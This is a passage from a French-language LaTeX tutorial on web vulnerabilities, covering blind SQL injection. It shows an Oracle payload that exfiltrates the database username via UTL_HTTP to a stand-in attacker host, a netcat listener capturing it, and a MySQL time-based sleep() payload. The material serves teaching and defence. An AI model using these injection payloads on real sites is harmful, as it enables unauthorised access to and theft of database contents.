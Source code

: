 \begin{tabbing}
\end{tabbing}
C'est une des raisons pour lesquelles ON NE STOCKE JAMAIS DE MOTS DE PASSE EN CLAIR dans une base de données.

\subsection{SQLi à l'aveugle (Blind) : extraction d'informations}\label{vulnerabilites:web:sqli:blindleak}

Lorsque les résultats des requêtes SQL ne sont pas directement affichés par l'application web, il va falloir travailler de manière détournée, en aveugle.

Par exemple, la requête (Oracle) suivante va envoyer des information vers la machine de l'attaquant : 
\begin{center}
http://www.monsite.tld/product.php?id=10

||UTL\_HTTP.request(‘attaquant.tld:80’

||(SELECT user FROM DUAL)--
\end{center}

Qui va recevoir le nom de l'utilisateur connecté à la base de données :
\begin{center}
/home/attaquant/nc –nLp 80
 
GET /ROBERT HTTP/1.1

Host: attaquant.tld

Connection: close

\end{center}

Ici, la requête injectée va forcer la base de données à exécuter une requête HTTP vers le serveur de l'attaquant. Cette requête va envoyer le nom du compte connecté à la base : ROBERT. L'attaquant n'aura qu'à récupérer le résultat sur sa console nc (ou dans les logs de son serveur HTTP).

On aurait pu aussi extraire des données avec une requete semblable à l'exemple précédent.

\subsection{SQLi à l'aveugle (Blind) : délai}\label{vulnerabilites:web:sqli:blindtime}

Une autre technique très connue est celle par délai d'attente, par exemple pour déterminer la version de MySQL utilisée :

\begin{center}
http://www.monsite.tld/product.php?id=10 AND IF(version() like ‘5\%’, sleep(10), ‘false’))--
\end{center}

